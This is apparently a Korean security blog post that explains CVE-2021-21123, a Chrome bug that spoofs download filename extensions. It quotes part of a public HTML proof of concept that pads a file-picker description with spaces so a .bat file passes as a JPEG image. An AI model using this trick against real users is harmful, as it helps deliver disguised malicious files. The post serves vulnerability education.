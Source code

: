 ```yaml
---

title: "[하루한줄] CVE-2021-21123: Chrome에서 발생하는 확장자 spoofing"
author: Fabu1ous
tags: [Fabu1ous, spoofing, chrome]
categories: [1day1line]
date: 2021-04-03 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## **URL**

[Issue 1137247: Security: Spoofing download filename extension in 86 chrome](https://bugs.chromium.org/p/chromium/issues/detail?id=1137247)



## **Target**

Google Chrome < 88.0.4324.96



## **Explain**

> CVE-2021-21123:  88.0.4324.96 이전 Google Chrome의 File System API에서 불충분한 데이터 유효성 검사를 통해 공격자는 조작된 HTML 페이지를 통해 파일 시스템 제한을 무시할 수 있습니다. 

```html
<script>
        const butSaveNewFile = document.getElementById('addNewFile')
        butSaveNewFile.addEventListener('click', async () => {
            const options = {
                types: [
                    {
                        description:
                            'JPEG Image (*.jpeg)                                                                                                                                                                                                                                                         ',
                        accept: {
                            'text/plain': ['.bat']
                        },
                        content: 'C:\\Windows\\system32\\calc.exe'
                    }
                ]
            }
            const handle = await window.showSaveFilePicker(options)
            const writable = await handle.createWritable()
            await writable.write('C:\\Windows\\system32\\calc.exe')
            await writable.close()
            alert('File saved')
        })
    </script>
```

위는 공개된 HTML PoC의 일부입니다. 변수  `description`의 값은 Google Chrome이 호출하는 "Save as(다른 이름으로 저장)" 창에서 다운로드될 파일의 확장자를 사용자에게 보여주는 용도로 사용됩니다. `description`에 연속적인 공백 문자 혹은 `*`이 포함되지 못하도록 막는 필터링의 부재로 인해 다운로드될 파일의 실제 확장자를 숨기거나 속일 수 있습니다(Spoofing download filename). 해당 취약점을 악용해 원격으로 타겟 시스템에 악성 코드를 설치 및 실행할 수 있기 때문에 User Interaction이 필요함에도 불구하고 높은 심각도의 취약점으로 분류됐습니다.

